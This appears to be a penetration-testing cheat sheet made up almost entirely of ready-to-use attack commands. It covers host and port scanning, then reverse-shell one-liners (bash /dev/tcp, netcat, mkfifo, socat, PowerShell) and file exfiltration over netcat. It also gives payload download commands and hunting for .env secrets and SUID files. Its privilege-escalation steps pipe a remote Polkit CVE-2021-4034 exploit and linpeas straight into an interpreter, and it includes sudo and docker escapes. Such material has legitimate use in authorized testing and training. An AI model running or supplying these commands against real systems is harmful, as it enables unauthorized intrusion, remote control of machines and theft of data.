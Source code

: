 # CHEATSHEET    


## NETWORK ENUMERATION

### HOST DISCOVERY
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```

### TCP OPEN PORTS
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```

### INFO & VERSION
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```

### HTTP ENUMERATION
Enumerate common directories and files with nmap
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```
Gobuster
```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```



## REVERSE SHELLS

### BASH
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

### NETCAT
```bash
nc -e /bin/bash <IP> <PORT>
```

### MKFIFO
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

### SOCAT
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### POWERSHELL
```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### INTERACTIVE TTY
```bash
script /dev/null -c bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```



## SHARE AND DOWNLOAD

### HTTP SERVER
```bash
# Python3
python3 -m http.server <PORT>

# Python2
python -m SimpleHTTPServer <PORT>

# PHP
php -S 0.0.0.0:<PORT>
```

### SMB 
```bash
smbserver.py <NAME> $(pwd) -smb2support
```

### FILE TRANSFER ( NETCAT - BASH ) 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```

### DOWNLOAD 
#### Powershell
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```

####Cmd
```shell
certutil -urlcache -split -f <URL> <PATH>
```

#### Bash
```bash
wget "http://<IP>/"
```



## SYSTEM ENUMERATION

### Enviroment Variables
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```

### Find SUID on GUID files
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```

### Check capabilities
```bash
getcap -r / 2>/dev/null
```

### Open local ports
```bash
ss -nltp
```

### Cron Jobs
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

### Monitoring processes
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

### Scripts with write permissions
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```

### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



## PRIVILEGE ESCALATION

### Sudo
```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```

### Polkit - (CVE-2021-4034)
```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```

### Docker
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

